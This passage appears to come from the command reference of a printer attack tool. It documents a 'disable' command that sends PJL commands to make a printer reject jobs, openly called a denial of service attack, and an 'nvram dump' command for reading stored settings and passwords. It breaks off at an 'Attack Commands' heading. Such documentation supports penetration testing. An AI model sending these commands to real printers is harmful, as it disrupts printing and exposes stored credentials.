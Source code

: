 ### disable - Disable Printer

Disables printer by setting incompatible media settings.

**Syntax:**
```
disable
```

**Notes:**
- ⚠️ Printer rejects print jobs
- Denial of service attack
- May require manual recovery
- Use with extreme caution

**PJL Commands Used:**
```
@PJL DINQUIRE JOBMEDIA
@PJL SET JOBMEDIA=OFF
```

---

### nvram - NVRAM Operations

Accesses non-volatile RAM containing settings and passwords.

**Syntax:**
```
nvram <dump|set|get> [options]
```

**Operations:**
- `dump` - Dump entire NVRAM contents
- `set` - Set NVRAM value (not implemented)
- `get` - Get NVRAM value (not implemented)

**Examples:**
```bash
nvram dump                # Dump all NVRAM
```

**Notes:**
- May contain sensitive information
- Passwords may be stored here
- Useful for information disclosure
- Some data may be encrypted
- Vendor-specific implementation

**PJL Command Used:**
```
@PJL INFO NVRAM
```

---

## 💥 Attack Commands
